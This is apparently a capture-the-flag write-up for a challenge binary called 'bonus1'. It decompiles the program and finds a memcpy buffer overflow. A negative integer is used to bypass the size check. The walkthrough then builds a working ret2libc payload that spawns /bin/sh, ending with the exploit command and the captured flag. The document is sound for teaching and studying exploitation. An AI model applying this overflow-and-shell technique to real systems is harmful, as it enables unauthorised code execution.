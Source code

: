 # bonus1

# Testing the program

When testing without any arguments we get a segfault, we don’t when giving one.

# De-compiling the program

```c
#include <stdint.h>
#include <stdlib.h>
#include <string.h>

// ------------------------ Functions -------------------------

// Address range: 0x8048424 - 0x80484a5
int main(int argc, char ** argv) {
    int32_t str_as_i = atoi((char *)*(int32_t *)(argc + 4)); // 0x8048438
    int32_t result = 1; // 0x8048446
    if (str_as_i < 10) {
        // 0x804844f
        int32_t v1; // bp-60, 0x8048424
        memcpy(&v1, (int32_t *)*(int32_t *)(argc + 8), 4 * str_as_i);
        result = 0;
    }
    // 0x80484a3
    return result;
}

// --------------------- Meta-Information ---------------------

// Detected compiler/packer: gcc (4.6.3)
// Detected functions: 1

```

## Dumping main

```c
(gdb)$ pdisas main
Dump of assembler code for function main:
   0x08048424 <+0>:		push   ebp
   0x08048425 <+1>:		mov    ebp,esp
   0x08048427 <+3>:		and    esp,0xfffffff0
   0x0804842a <+6>:		sub    esp,0x40
   0x0804842d <+9>:		mov    eax,DWORD PTR [ebp+0xc]
   0x08048430 <+12>:	add    eax,0x4
   0x08048433 <+15>:	mov    eax,DWORD PTR [eax]
   0x08048435 <+17>:	mov    DWORD PTR [esp],eax
   0x08048438 <+20>:	call   0x8048360 <atoi@plt>
   0x0804843d <+25>:	mov    DWORD PTR [esp+0x3c],eax
   0x08048441 <+29>:	cmp    DWORD PTR [esp+0x3c],0x9
   0x08048446 <+34>:	jle    0x804844f <main+43>
   0x08048448 <+36>:	mov    eax,0x1
   0x0804844d <+41>:	jmp    0x80484a3 <main+127>
   0x0804844f <+43>:	mov    eax,DWORD PTR [esp+0x3c]
   0x08048453 <+47>:	lea    ecx,[eax*4+0x0]
   0x0804845a <+54>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804845d <+57>:	add    eax,0x8
   0x08048460 <+60>:	mov    eax,DWORD PTR [eax]
   0x08048462 <+62>:	mov    edx,eax
   0x08048464 <+64>:	lea    eax,[esp+0x14]
   0x08048468 <+68>:	mov    DWORD PTR [esp+0x8],ecx
   0x0804846c <+72>:	mov    DWORD PTR [esp+0x4],edx
   0x08048470 <+76>:	mov    DWORD PTR [esp],eax
   0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
   0x08048478 <+84>:	cmp    DWORD PTR [esp+0x3c],0x574f4c46
   0x08048480 <+92>:	jne    0x804849e <main+122>
   0x08048482 <+94>:	mov    DWORD PTR [esp+0x8],0x0
   0x0804848a <+102>:	mov    DWORD PTR [esp+0x4],0x8048580
   0x08048492 <+110>:	mov    DWORD PTR [esp],0x8048583
   0x08048499 <+117>:	call   0x8048350 <execl@plt>
   0x0804849e <+122>:	mov    eax,0x0
   0x080484a3 <+127>:	leave
   0x080484a4 <+128>:	ret
End of assembler dump.
```

- The destination buffer v1 is only 4 bytes (32 bits), but the memcpy() copies `4 * str_as_i` bytes
- While there's a check for `str_as_i < 10`, this still allows copying up to 36 bytes (9 * 4 = 36) into a 4-byte buffer
- The source pointer is derived from argc+8, which likely points to argv[2]

Classic buffer overflow…

There is a system call calling a shell, well have to exploit that.

The UINT_MAX is 4294967295, / 4 is 1073741823, so we can try with -1073741823. / 4 because the input is multiplied by 4.

```c

(gdb) r -1073741803 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
Starting program: /home/user/bonus1/bonus1 -1073741803 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

Program received signal SIGSEGV, Segmentation fault.
0x4f4f4f4f in ?? ()

(gdb) i r
eax            0x0	0
ecx            0x55555555	1431655765
edx            0xbffff588	-1073744504
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff570	0xbffff570
ebp            0x4e4e4e4e	0x4e4e4e4e
esi            0x0	0
edi            0x0	0
eip            0x4f4f4f4f	0x4f4f4f4f
eflags         0x210287	[ CF PF SF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```

Using a pattern string we can see that eip is overwritten and starts at ‘OOOO’ so 56.

```
0x08048482 <+94>:	movl   $0x0,0x8(%esp)
0x0804848a <+102>:	movl   $0x8048580,0x4(%esp)
0x08048492 <+110>:	movl   $0x8048583,(%esp)
0x08048499 <+117>:	call   0x8048350 <execl@plt>

(gdb) x/s 0x8048583
0x8048583:	 "/bin/sh"
```

We also know that the address of "/bin/sh" is "0x8048583”

```
(gdb) info function system
All functions matching regular expression "system":

Non-debugging symbols:
0xb7e6b060  __libc_system
0xb7e6b060  system
0xb7f49550  svcerr_systemerr
```

And that the address of system is 0xb7e6b060  

So to build the string we have to :
`(X * 56) + "set EIP to system address" + "RET = JUNK" + "address of /bin/sh"`

```c
./bonus1 -1073741803 $(python -c 'print "B"*56+"\x60\xb0\xe6\xb7"+"JUNK"+"\x83\x85\x04\x08"')
```

and we get 

579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245